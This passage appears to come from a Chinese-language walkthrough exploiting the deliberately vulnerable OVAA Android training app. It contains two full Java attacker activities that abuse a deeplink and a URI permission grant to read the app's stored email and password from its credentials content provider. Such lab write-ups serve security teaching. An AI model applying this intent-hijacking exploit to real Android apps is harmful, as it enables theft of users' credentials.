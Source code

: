 其逻辑为：

ovaa通过动作名为 `"oversecured.ovaa.action.GRANT_PERMISSIONS"` 的 `Intent`唤醒`EvilActivity`处理这个Intent，然后 `EvilActivity`会打开 `"content://oversecured.ovaa.creds_provider"`这个Uri，设置将这个Uri封装进Intent作为结果返回，并结束。

```java
public class EvilActivity extends Activity {
    @Override
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        setContentView(R.layout.first_layout);
        Intent i = new Intent("android.intent.action.VIEW");
        i.setData(Uri.parse("content://oversecured.ovaa.creds_provider"));
        i.setFlags(Intent.FLAG_GRANT_READ_URI_PERMISSION);
        setResult(RESULT_OK, i);
        Log.d("B1u", "EvilActivity: Return data");
        finish();
    }
}
```

#### 发出deeplink：oversecured://ovaa/grant_uri_permissions

写一个Activity来发出deeplink，使ovaa发出 `"oversecured.ovaa.action.GRANT_PERMISSIONS"` 的 `Intent`。

然后在`onActivityResult`中，根据`requestCode`获取`result`，将该`result`进行解析，得到`email`和`password`。

```java
public class FirstActivity extends Activity {
    @Override
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        setContentView(R.layout.first_layout);
        Intent i = new Intent(Intent.ACTION_VIEW);
        i.setData(Uri.parse("oversecured://ovaa/grant_uri_permissions"));
        i.setClassName("oversecured.ovaa", "oversecured.ovaa.activities.DeeplinkActivity");
        Log.d("B1u", "Call ovaa using deeplink");
        startActivityForResult(i, 101);

    }

    @Override
    protected void onActivityResult(int requestCode, int resultCode, Intent data) {
        super.onActivityResult(requestCode, resultCode, data);
        Log.d("B1u", "ResultCode: " + resultCode + " RequestCode: " + requestCode);
        if (resultCode == -1 && requestCode == 101) {
            Log.d("B1u", "Received result from ovaa");
            Uri myUri = data.getData();
            String[] cols = new String[] {"email", "password"};
            ContentResolver cr = getContentResolver();
            assert myUri != null;
            Cursor c = cr.query(myUri, cols, null, null, null);
            Log.d("B1u", "Retrun from ovaa" + DatabaseUtils.dumpCursorToString(c));
        }
    }
}
```
